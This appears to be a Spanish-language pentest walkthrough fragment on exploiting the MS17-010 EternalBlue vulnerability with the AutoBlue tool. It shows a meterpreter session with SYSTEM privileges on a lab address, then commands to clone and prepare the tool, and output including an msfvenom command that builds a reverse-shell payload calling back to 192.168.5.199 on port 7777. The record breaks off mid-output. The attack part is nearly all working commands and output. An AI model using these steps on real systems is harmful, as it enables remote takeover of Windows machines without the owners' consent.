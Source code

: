 ```
[+] 192.168.5.138:445 - =-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=

meterpreter > getuid
Server username: NT AUTHORITY\SYSTEM
```

> Herramienta GitHub

```shell
git clone https://github.com/3ndG4me/AutoBlue-MS17-010.git
```

```shell
cd AutoBlue-MS17-010/
```

```shell
pip install -r requirements.txt
```

```shell
cd shellcode/
```

```shell
chmod +x shell_prep.sh
```

```shell
./shell_prep.sh
```

Info:

```
                _.-;;-._
          '-..-'|   ||   |
          '-..-'|_.-;;-._|
          '-..-'|   ||   |
          '-..-'|_.-''-._|   
Eternal Blue Windows Shellcode Compiler

Let's compile them windoos shellcodezzz

Compiling x64 kernel shellcode
Compiling x86 kernel shellcode
kernel shellcode compiled, would you like to auto generate a reverse shell with msfvenom? (Y/n)
y
LHOST for reverse connection:
192.168.5.199
LPORT you want x64 to listen on:
7777
LPORT you want x86 to listen on:
7777
Type 0 to generate a meterpreter shell or 1 to generate a regular cmd shell
1
Type 0 to generate a staged payload or 1 to generate a stageless payload
1
Generating x64 cmd shell (stageless)...

msfvenom -p windows/x64/shell_reverse_tcp -f raw -o sc_x64_msf.bin EXITFUNC=thread LHOST=192.168.5.199 LPORT=7777
[-] No platform was selected, choosing Msf::Module::Platform::Windows from the payload
[-] No arch selected, selecting arch: x64 from the payload
No encoder specified, outputting raw payload
Payload size: 460 bytes
Saved as: sc_x64_msf.bin

Generating x86 cmd shell (stageless)...

```